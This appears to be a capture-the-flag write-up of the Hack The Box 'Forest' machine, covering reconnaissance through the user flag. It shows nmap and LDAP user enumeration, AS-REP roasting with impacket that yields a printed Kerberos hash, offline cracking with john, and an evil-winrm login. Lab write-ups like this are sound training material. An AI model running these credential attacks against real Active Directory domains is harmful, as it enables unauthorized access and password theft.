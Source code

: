 ```yaml
---
layout: post
title:  "Hackthebox - Forest writeup"
date:   2023-06-03 19:00:00 +0300
categories: HTB write-up
description:  "Hackthebox - HTB Blue writeup - How to solve this box"
keywords: "Hack the box, HTB, writeup, Forest"
---
```


## Recon

Let's start with the classic port scan.

```
sudo nmap -sS -sV 10.10.10.161 -oS nmap
```

which returns: 

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-14 14:24 EEST
Nmap scan report for 10.10.10.161
Host is up (0.22s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-08-14 11:48:00Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.54 seconds
```

On thing to note is the domain name (htb.local) as we will need this further on. 
Plenty of results immediately, but of course LDAP and Kerberos catches our attention. Let's try to enumerate users using LDAP search. 

```
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local"
```

This produces too many results, so I will try to grep what is interesting for me. 

```
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local" | grep userPrincipalName

userPrincipalName: Exchange_Online-ApplicationAccount@htb.local
userPrincipalName: SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1}@htb.loc
userPrincipalName: SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}@htb.loc
userPrincipalName: SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}@htb.loc
userPrincipalName: DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB85
userPrincipalName: Migration.8f3e7716-2011-43e4-96b1-aba62d229136@htb.local
userPrincipalName: FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042@htb.loc
userPrincipalName: SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}@htb.loc
userPrincipalName: SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}@htb.loc
userPrincipalName: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}@htb.loc
userPrincipalName: HealthMailboxc3d7722415ad41a5b19e3e00e165edbe@htb.local
userPrincipalName: HealthMailboxfc9daad117b84fe08b081886bd8a5a50@htb.local
userPrincipalName: HealthMailboxc0a90c97d4994429b15003d6a518f3f5@htb.local
userPrincipalName: HealthMailbox670628ec4dd64321acfdf6e67db3a2d8@htb.local
userPrincipalName: HealthMailbox968e74dd3edb414cb4018376e7dd95ba@htb.local
userPrincipalName: HealthMailbox6ded67848a234577a1756e072081d01f@htb.local
userPrincipalName: HealthMailbox83d6781be36b4bbf8893b03c2ee379ab@htb.local
userPrincipalName: HealthMailboxfd87238e536e49e08738480d300e3772@htb.local
userPrincipalName: HealthMailboxb01ac647a64648d2a5fa21df27058a24@htb.local
userPrincipalName: HealthMailbox7108a4e350f84b32a7a90d8e718f78cf@htb.local
userPrincipalName: HealthMailbox0659cc188f4c4f9f978f6c2142c4181e@htb.local
userPrincipalName: sebastien@htb.local
userPrincipalName: santi@htb.local
userPrincipalName: lucinda@htb.local
userPrincipalName: andy@htb.local
userPrincipalName: mark@htb.local

```

and also grep for service accounts:

```
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local" | grep 'Service Accounts'


# Managed Service Accounts, htb.local
dn: CN=Managed Service Accounts,DC=htb,DC=local
cn: Managed Service Accounts
distinguishedName: CN=Managed Service Accounts,DC=htb,DC=local
name: Managed Service Accounts
# Service Accounts, htb.local
dn: OU=Service Accounts,DC=htb,DC=local
ou: Service Accounts
distinguishedName: OU=Service Accounts,DC=htb,DC=local
name: Service Accounts
# svc-alfresco, Service Accounts, htb.local
dn: CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local
# Service Accounts, Security Groups, htb.local
dn: CN=Service Accounts,OU=Security Groups,DC=htb,DC=local

```

which returns svc-alfresco as a result. 

## User flag

I create a users.txt file with all the accounts I discovered. The first tactic is to query for users that have no pre-authentication enabled. You can google that out or read this fine [article](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/) to find out more. In a nutshell, users with no pre-authentication enabled means these users don't have to prove they know their password to the Domain Controller. As a result these accounts can obtain AS-REP replies that contain TGT tickets and these replies are partly encrypted with the user's password. Now as an attacker you have the opportunity to crack it offline. 

There are tools to get the AS-REP replies and I am going to use impacket.

```
impacket-GetNPUsers -usersfile users.txt -request -format john -outputfile ASREPRoast.txt -dc-ip 10.10.10.161 'htb.local/'

cat ASREPRoast.txt 

$krb5asrep$svc-alfresco@htb.local@HTB.LOCAL:9745925cd49197ddcaa315d66e570f75$1ca0da77e1799e460b2818c58e3e98de2783b50dde571d6c18af1fe706662c6e2c573a545304769de6ebb630ff5d9e6c4fbf2d7df0323f9216ab03ba3bb5d49c7ee6b7caa7352fa370e20369e672f000eeec50dde6a6aa7ab89363030ea9b3c6364e1bd22eb45c0b78ef25bb2a544b0b4c797c0c5d2e89a3ce6a1134c645f2c3c3a1cb917df1a13328952f271209ddc8b4f024a80a345b675163a82b585b28f4cfa855bdf6af2f4c23349093d762e9de24c611261ae071fe61055c84fa38d2b68bb396f0ea017994c2e80bd776e24766e77fc2f27b6dc9352ad48749a2d1d7050bdd01c3a3b3
```

Now that we have the hashed password we can try to crack it with john ( this is the format we chose at the impacket command above).

```
john ASREPRoast.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

and now you have the user's password. Let's see what services there are to exploit...

hmm...

at this point I had to think a little bit. I did not scan for all the open ports during my nmap scan. I ran again the nmap scan with the ```-p-``` flag to scan all the ports and I got a new result: port 5985 open using HTTP, which [points us](https://www.speedguide.net/port.php?port=5985) to WinRM. 

Just googling *win-rm kali linux* shows me the evil-winrm tool. 

You can connect to the box using the following command:

```
evil-winrm -u svc-alfresco -p ********* -i 10.10.10.161
```

Now that you are connected, just look around and you'll find the user flag. 